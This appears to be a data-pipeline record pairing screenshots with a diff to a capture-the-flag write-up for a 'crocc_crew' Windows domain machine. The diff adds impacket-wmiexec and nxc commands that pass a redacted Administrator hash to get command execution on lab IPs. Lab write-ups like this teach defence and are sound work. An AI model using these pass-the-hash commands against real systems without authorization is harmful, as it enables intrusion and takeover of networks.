

crocc_crew

Changed region(s): [[0.0, 0.0, 0.9544, 1.0], [0.9236, 0.8128, 0.9544, 0.873], [0.5234, 0.1204, 0.5849, 0.1505]]

diff --git a/_posts/hard/2026-09-10-crocc_crew.md b/_posts/hard/2026-09-10-crocc_crew.md
@@ -384,6 +384,16 @@ The command execution confirmed Administrator-level access. So i could then obta
 ```bash
 evil-winrm -i 10.49.186.133 -u Administrator -H add41<REDACTED>022d
 ```
+Alternatively
+
+```bash
+impacket-wmiexec 'COOCTUS.CORP/Administrator@10.48.180.235' -hashes ':add41<REDACTED>022d'
+
+OR
+
+nxc smb 10.48.180.235 -u Administrator -H 'add41<REDACTED>022d' --exec-method wmiexec -x cmd.exe
+```
+
 ![user_flag](/assets/images/writeups/crocc_crew/23.png)
 
 This gave me full administrative access to the machine and allowed me to retrieve the final flag.
